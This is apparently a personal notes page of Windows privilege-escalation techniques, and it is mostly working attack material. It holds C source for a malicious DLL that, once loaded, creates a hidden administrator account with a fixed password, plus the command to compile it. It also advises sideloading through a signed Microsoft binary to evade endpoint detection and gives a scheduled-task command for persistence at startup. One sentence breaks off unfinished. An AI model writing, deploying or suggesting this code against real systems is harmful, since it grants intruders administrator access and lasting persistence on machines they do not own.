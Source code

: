 # Additional PrivEsc


> ***IMPORTANT***: We achieve not only `Privilege Escalation`, but also `code-execution` and `persistence`!!!

# DLL Hijack/Sideloading
<https://www.bordergate.co.uk/windows-privilege-escalation/#DLL-Hijacking>
The following code can be used to create a malicious DLL:

Bring your own vulnerable signed MS binary:

OLEVIEW

Why? EDR's will check if dll's loaded by LOL windows binaries happen from the right directory - by dropping a signed binary that is not present on the file system, we evding that detection.

Additionally OLEVIEW will

```csharp
#include <windows.h>
 
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net user localadmin Password1 /add");
        system("cmd.exe /k net localgroup administrators localadmin /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
Compile with:

```code
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijack.dll
```

# DLL Hijacking
onedrive -> Appdata -> cscapi.dll

<https://hijacklibs.net/>

https://juggernaut-sec.com/dll-hijacking/#Hijacking_the_Service_DLL_to_get_a_SYSTEM_Shell

![image](./images/dllsearch.jpg)



# SCHEDULED TASKS

```powershell
schtasks /create /tn VulnTask /tr 'c:\MyPrograms\VulnerableTask\VulnTask.exe' /sc ONSTART /RL HIGHEST /RU "Student_adm" /RP "Threathunt25" /F
```